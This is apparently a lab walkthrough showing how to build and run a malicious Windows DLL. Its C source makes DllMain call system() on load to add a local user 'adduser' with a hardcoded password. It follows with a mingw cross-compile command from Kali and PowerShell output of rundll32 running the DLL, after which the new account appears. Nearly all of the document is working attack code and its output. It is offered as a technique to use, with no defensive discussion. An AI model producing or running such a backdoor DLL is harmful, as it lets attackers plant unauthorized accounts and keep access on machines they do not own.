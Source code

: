 We will use this code, save file as adduser.c

	#include <windows.h>

	void exec(void) {
		system("net user adduser Pass123! /add");
		return;
	}

	BOOL WINAPI DllMain(
		HINSTANCE hinstDLL,
		DWORD fdwReason, 
		LPVOID lpReserved )
	{
		switch( fdwReason ) 
		{ 
			case DLL_PROCESS_ATTACH:
			   exec(); 
			   break;

			case DLL_THREAD_ATTACH:
				break;

			case DLL_THREAD_DETACH:
				break;

			case DLL_PROCESS_DETACH:
				break;
		}
		return TRUE;
	}

Compile dll

	┌──(kali㉿kali)-[~/Desktop]
	└─$ i686-w64-mingw32-gcc -shared adduser.c -o adduser.dll

Run dll with elevated command line 

	PS C:\Users\testuser\Desktop> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	Administrator            DefaultAccount           Guest
	nightmare                WDAGUtilityAccount       win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop> rundll32.exe .\adduser.dll,exec
	PS C:\Users\testuser\Desktop> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adduser                  Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.